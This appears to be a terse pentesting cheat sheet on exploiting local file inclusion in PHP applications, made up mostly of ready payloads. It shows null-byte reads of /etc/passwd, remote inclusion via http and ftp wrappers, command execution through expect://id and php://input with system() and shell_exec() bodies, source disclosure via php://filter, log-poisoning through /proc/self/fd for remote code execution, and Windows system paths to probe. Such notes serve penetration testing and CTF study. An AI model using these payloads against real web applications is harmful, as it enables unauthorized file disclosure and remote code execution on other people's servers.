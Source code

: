 # php wrappers, LFI

## Workarounds

`NOTE:` **`Read the file that is running LFI`**`to get more information about the code.`

```bash
# using null byte %00
/etc/passwd%00

# LFI wordlist
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt
```

## .php wrappers

```bash
# protocol wraper
file=http://IP/
file=ftp://IP/

# expect wrapper
# allows to run system commands
file=expect://id

# input wrapper
file=php://input
# needs to send POST data
<?php system('id'); ?> | <?php shell_exec('id'); ?>

# filter wrapper
file=php://filter/convert.base64-encode/resource=PHP-FILE
```

## LFI to RCE (linux)

```bash
# using LFI can read access log files and then log poision
# if user does not have perms to read log files; can do file descriptor way
LFI=/proc/self/fd/{NUMBER}

# once have access to log file > log-poisoning.
```

## LFI Paths (windows)

```bash
# sample paths to test
C:\Windows\System32\Drivers\etc\hosts
C:\\Windows\\System32\\Drivers\\etc\\hosts
\Windows\System32\Drivers\etc\hosts
\\Windows\\System32\\Drivers\\etc\\hosts
C:\Windows\win.ini
C:\\Windows\\win.ini
\Windows\win.ini
\\Windows\\win.ini
C:\Windows\system.ini
C:\\Windows\\system.ini
\Windows\system.ini
\\Windows\\system.ini
```
